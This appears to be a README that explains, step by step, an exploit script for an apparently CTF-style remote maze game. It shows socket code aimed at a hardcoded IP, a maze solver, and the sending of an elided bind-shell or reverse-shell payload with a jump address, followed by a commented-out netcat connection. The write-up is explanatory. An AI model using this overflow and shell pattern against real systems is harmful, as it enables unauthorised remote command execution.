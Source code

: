 # Nethack.us-RobotMaze-RCE

The main file you need to look at is 'solve_maze.py'

## What the script actually does

This is an **automated maze-solver + buffer overflow exploit**.

It connects to a remote server, completes a mini-game (maze), then uses a vulnerability (likely in how the server processes input) to inject shellcode.

The shellcode will then start a reverse shell and connect back to the attacker.

Once exploited, the attacker gains **remote command execution** on the target.


# Exploit Script Analysis

## 1. Imports & Setup

```python
import os, sys
import socket, errno
from time import sleep

maze_size = 3741
conn = ('104.236.116.183', 9000)
```

- **`maze_size`** → size of the maze data in bytes expected from the server.  
- **`conn`** → the IP and port of the challenge server.  

---

## 2. Shellcode Definitions

```python
def shellcode():
    ...
    bind_shell = b"..."
    rev2 = b"..."
```

- **`bind_shell`** → raw x86 shellcode that opens a bind shell on port `4444`.  
- **`rev2`** → reverse shell shellcode that connects back to a specific IP and port.  
- **NOP sleds** (`\x90`) are added before and after to help the shellcode land in memory safely.  
- At the end:  
  ```python
  b'\xd3\x79\x0b\x08' # address to jump to ECX
  ```
  is likely an address in the vulnerable process's memory (little-endian format).  

The function **returns** the complete payload.

---

## 3. Socket Connection Functions

```python
def connect_sock():
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(conn)
    sock.setblocking(False)
    return sock
```

- Connects to the target server.
- Sets non-blocking mode to avoid hanging during reads.

```python
def read_sock(sock, size):
    data = b""
    while len(data) < size:
        try:
            data += sock.recv(4096)
        except IOError as e:
            sleep(.2)
            if e.args[0] == errno.EAGAIN:
                continue
            else:
                print(e)
                sys.exit(0)
    return data
```

- Reads exactly `size` bytes from the socket, retrying if no data is ready (`EAGAIN`).

---

## 4. Maze Solver

Uses **recursive depth-first search (DFS)** to find the path.

```python
def solve_maze(y, x, maze):
    try:
        if maze[y][x] == 2:  # Goal
            return ""
        elif maze[y][x] == 1:  # Wall
            return "E"
        elif maze[y][x] == 3:  # Already visited
            return "E"
    except IndexError:
        return "E"

    maze[y][x] = 3  # mark visited

    ret = solve_maze(y+1, x, maze)
    if ret != "E": return "s" + ret

    ret = solve_maze(y, x-1, maze)
    if ret != "E": return "a" + ret

    ret = solve_maze(y-1, x, maze)
    if ret != "E": return "w" + ret

    ret = solve_maze(y, x+1, maze)
    if ret != "E": return "d" + ret

    return "E"
```

- Maze encoding:  
  - `0` → free space  
  - `1` → wall  
  - `2` → goal  
  - `3` → visited  

- Movement mapping:  
  - `"w"` = up  
  - `"s"` = down  
  - `"a"` = left  
  - `"d"` = right  

---

## 5. Maze Parsing

```python
def parse_maze(data):
    maze = []
    for y in range(43):
        xa = []
        for x in range(43):
            rx = (y*87) + (x*2)
            sym = data[rx:rx+2]
            if sym == b"[]":
                xa.append(1)  # wall
            elif sym == b"  " or sym == b"<>":
                xa.append(0)  # empty
        maze.append(xa)
    maze[42][41] = 2  # exit
    return maze
```

- Converts ASCII maze into a 2D grid of numbers.  
- Maze is **43 × 43 tiles**, each tile taking 2 bytes in ASCII form.  
- Bottom-right corner is marked as the exit.

---

## 6. Main Exploit Flow

```python
if __name__ == "__main__":
    sock = connect_sock()
    data = read_sock(sock, maze_size)

    maze = parse_maze(data)
    solve = solve_maze(0, 1, maze)

    print(data.decode())
    sock.send(solve.encode())

    recv_len = (len(solve) - 1) * maze_size + 56
    data = read_sock(sock, recv_len)

    print(data.decode())
    sock.send(shellcode())

    print("Dropping to shell ... ACTIVE\n")
    # os.system("nc " + conn[0] + " 4444")
```

**Step-by-step:**
1. Connects to the server.
2. Reads the maze data.
3. Parses the maze into a 2D grid.
4. Solves it from starting point `(0, 1)`.
5. Sends the movement string to the server.
6. Reads additional response data (likely per-move updates).
7. Sends the shellcode payload.
8. Prepares to connect to the shell (commented out).

